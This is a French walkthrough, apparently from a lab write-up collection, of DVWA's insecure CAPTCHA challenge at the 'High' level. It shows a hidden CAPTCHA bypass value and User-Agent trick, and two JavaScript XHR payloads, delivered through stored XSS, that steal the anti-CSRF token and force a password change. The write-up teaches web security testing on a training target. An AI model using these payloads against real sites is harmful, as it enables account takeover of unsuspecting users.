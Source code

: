 # Niveau "High"

Quelles nouveautés pour ce niveau "High" ? :

![](../../../../.gitbook/assets/0b72ddd77825da73b7eb9dae362be3ce.png)

Ici pas d'étape de confirmation, le changement du mot de passe est directement effectué :

![](../../../../.gitbook/assets/de31571ab16a1a06442e7a913a15f3e3.png)

La seule requête effectuée est la suivante :

![](../../../../.gitbook/assets/01223a528799368e5faf595dae961622.png)

J'identifie rapidement la présence d'un jeton anti-CSRF nommé `user_token`, mais plus intéressant ici, la réponse contient un commentaire HTML :

![](../../../../.gitbook/assets/7b78c6fe35530fd199e1e35cd62be202.png)

Il s'agit sans doute d'un contournement mis en place par le développeur afin de tester sa feature sans avoir à résoudre le Captcha. Je forge donc une requête dont la valeur du Captcha (le paramètre `g-recaptcha-response` ) est `hidd3n_valu3` ainsi qu'un entête `User-Agent` possédant la valeur `reCAPTCHA` :

![](../../../../.gitbook/assets/eb6728607b08ade78bea2c5b6c3aac1c.png)

Le changement du mot de passe fonctionne :

![](../../../../.gitbook/assets/9dcf8b33e9273a14a2e8452ac9c9604a.png)

A cause de la présence du jeton anti-CSRF il me faut exploiter une faille XSS sur l'application cible afin de récupérer un jeton puis seulement effectuer l'attaque CSRF.

{% hint style="info" %}
Pour cela, le challenge XSS Stored sera utilisé et l'injection se fera en niveau "Low". Par contre, il ne faudra pas oublier de repasser en niveau "High" pour l'exploitation du contournement du Captcha.
{% endhint %}

Voici la première requête **`XHR`** :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
    var token = xhr.response.getElementsByName('user_token')[0].value;
               
    // Ici la seconde requête
};

xhr.send();
```

Une fois le jeton récupéré, la seconde requête effectuée sera :

```javascript
var xhr2 = new XMLHttpRequest();
xhr2.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr2.setRequestHeader("User-Agent", "reCAPTCHA");
xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr2.withCredentials = true;

xhr2.send("step=1&password_new=hacked&password_conf=hacked&g-recaptcha-response=hidd3n_valu3&user_token="+token+"&Change=Change");
```



L'exploitation de la vulnérabilité ne fonctionne pas sous Chrome (testée sur la version 78), car le navigateur interdit la modification de l'entête `User-Agent` :

![](../../../../.gitbook/assets/fbdd68937e48a4a534ac40448edf36a2.png)

Mais cela fonctionne sur Firefox (testée sur la version 70) :

![](../../../../.gitbook/assets/bf87cb7197d49a0befe9976b80d25cef.png)

